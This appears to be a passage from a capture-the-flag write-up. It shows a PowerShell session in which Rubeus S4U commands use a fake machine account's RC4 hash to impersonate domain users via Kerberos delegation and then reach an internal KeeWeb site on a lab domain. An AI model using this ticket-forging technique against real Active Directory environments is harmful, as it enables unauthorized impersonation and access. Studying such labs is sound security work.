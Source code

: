 ```
PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:bob /msdsspn:http/web.htb.local /ptt
[+] Ticket successfully imported!
PS > Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
401 - Unauthorized: Access is denied due to invalid credentials.

PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:remote_user /msdsspn:http/web.htb.local /ptt
[X] KRB-ERROR (13) : KDC_ERR_BADOPTION

PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:lee /msdsspn:http/web.htb.local /ptt
[+] Ticket successfully imported!
PS > Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html><html manifest="manifest.appcache" style="font-size: 12px;"><head lang="en">
                    <base href="http://web.htb.local/"><meta charset="UTF-8"><title>KeeWeb</title><meta
                    name="application-nam...
RawContent        : HTTP/1.1 200 OK
                    Persistent-Auth: true
                    Accept-Ranges: bytes
                    Content-Length: 280496
                    Content-Type: text/html
                    Date: Thu, 02 Jul 2020 14:25:30 GMT
                    ETag: "51a8b943583d51:0"
                    Last-Modified: Tue, 15 Oct...
Forms             :
Headers           : {[Persistent-Auth, true], [Accept-Ranges, bytes], [Content-Length, 280496], [Content-Type,
                    text/html]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 280496
```
